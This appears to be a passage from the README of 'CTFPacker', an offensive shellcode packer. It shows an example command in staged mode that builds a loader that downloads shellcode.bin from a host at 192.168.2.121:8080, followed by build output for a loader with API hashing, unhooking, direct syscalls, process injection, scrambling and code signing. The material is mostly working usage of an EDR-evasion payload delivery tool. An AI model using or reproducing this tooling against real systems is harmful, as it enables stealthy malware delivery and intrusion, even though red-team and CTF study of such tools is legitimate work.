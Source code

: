 ### Staged

When using the staged "mode", the packer will generate you a .bin file named accordingly to your `-o` arg. With the `-pa` argument, you are actually telling the loader *where* on the websever (basically the path) it should search for that .bin file. So TLDR those two values should usually be the same.

Example:

```powershell
python main.py staged -p "C:\Code\CTFPacker\calc.bin" -i 192.168.2.121 -po 8080 -pa /shellcode.bin -o shellcode -s -si



 ▄████▄  ▄▄▄█████▓  █████▒██▓███   ▄▄▄       ▄████▄   ██ ▄█▀▓█████  ██▀███
▒██▀ ▀█  ▓  ██▒ ▓▒▓██   ▒▓██░  ██▒▒████▄    ▒██▀ ▀█   ██▄█▒ ▓█   ▀ ▓██ ▒ ██▒
▒▓█    ▄ ▒ ▓██░ ▒░▒████ ░▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▒███   ▓██ ░▄█ ▒
▒▓▓▄ ▄██▒░ ▓██▓ ░ ░▓█▒  ░▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒▓█  ▄ ▒██▀▀█▄
▒ ▓███▀ ░  ▒██▒ ░ ░▒█░   ▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄░▒████▒░██▓ ▒██▒
░ ░▒ ▒  ░  ▒ ░░    ▒ ░   ▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒░░ ▒░ ░░ ▒▓ ░▒▓░
  ░  ▒       ░     ░     ░▒ ░       ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░ ░ ░  ░  ░▒ ░ ▒░
░          ░       ░ ░   ░░         ░   ▒   ░        ░ ░░ ░    ░     ░░   ░
░ ░                                     ░  ░░ ░      ░  ░      ░  ░   ░
░                                           ░



        Author: B0lg0r0v
        https://arthurminasyan.com

[i] Staged Payload selected.
[+] Starting the process...
[i] Corresponding template selected..
[+] Template files modified !
[i] Encryption not selected.
[+] Compiling the loader...
[i] Scrambling selected.
[+] Scrambling the loader...
[+] Loader scrambled !
[i] Signing selected.
[+] Signing the loader...
rm -f *.o *.obj ctfloader.exe
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c api_hashing.c -o api_hashing.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c download.c -o download.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c inject.c -o inject.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c main.c -o main.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c unhook.c -o unhook.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c whispers.c -o whispers.o
nasm -f win64   whispers-asm.x64.asm -o whispers-asm.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -o ctfloader.exe api_hashing.o download.o inject.o main.o unhook.o whispers.o whispers-asm.o -Wl,--disable-auto-import -s -lwinhttp -lntdll
Connecting to http://timestamp.sectigo.com
Succeeded
[+] Loader signed !
[+] DONE !
```
